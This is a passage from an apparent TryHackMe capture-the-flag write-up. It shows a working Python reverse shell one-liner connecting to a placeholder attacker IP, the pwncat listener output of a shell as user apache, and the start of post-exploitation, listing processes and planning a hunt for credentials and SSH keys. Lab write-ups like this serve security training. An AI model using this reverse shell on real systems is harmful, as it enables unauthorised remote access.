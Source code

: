 Then we can create a reverse shell in Python

```bash
# which python # We first check that Python is available on the target machine
/usr/bin/python

# Next we execute the Python reverse shell
# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<THM_LOCAL_IP",4444));[os.dup2(s.fileno(),f)for f in(0,1
,2)];pty.spawn("sh")'
```

```bash
pwncat -lp 4444
[11:35:05] Welcome to pwncat 🐈!                                                                        __main__.py:164
[11:37:48] received connection from 10.10.35.124:53306                                                       bind.py:84
[11:37:49] 0.0.0.0:4444: upgrading from /usr/bin/dash to /usr/bin/bash                                   manager.py:957
[11:37:50] 10.10.35.124:53306: registered new host w/ db                                                 manager.py:957
(local) pwncat$
# Using CTRL + D we get a clean reverse shell                                                                                                       
(remote) apache@tryhackme:/data/www/default$ id
uid=1001(apache) gid=1001(apache) groups=1001(apache)
```

**Note : I tried many reverse shell payloads (Bash, Netcat, Perl, etc) but I kept getting this error : `[-] No valid response received or target not vulnerable` . Only the Python one worked for me.**

## Post exploitation

Ok now that we’ve gained access to the target machine we need to find a “suspicious process”.

I tried using the `ps -aux` command but didn’t find anything.

```bash
ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 169644 12888 ?        Ss   08:58   0:02 /sbin/init
root           2  0.0  0.0      0     0 ?        S    08:58   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   08:58   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   08:58   0:00 [rcu_par_gp]
root           5  0.0  0.0      0     0 ?        I<   08:58   0:00 [slub_flushwq]
root           6  0.0  0.0      0     0 ?        I<   08:58   0:00 [netns]
root           8  0.0  0.0      0     0 ?        I<   08:58   0:00 [kworker/0:0H-events_highpri]
root          10  0.0  0.0      0     0 ?        I<   08:58   0:00 [mm_percpu_wq]
root          11  0.0  0.0      0     0 ?        S    08:58   0:00 [rcu_tasks_rude_]
root          12  0.0  0.0      0     0 ?        S    08:58   0:00 [rcu_tasks_trace]
[..................................................................................]
```

Let’s look around the system to see if there are interesting informations (creds, ssh keys, SUID files, etc).

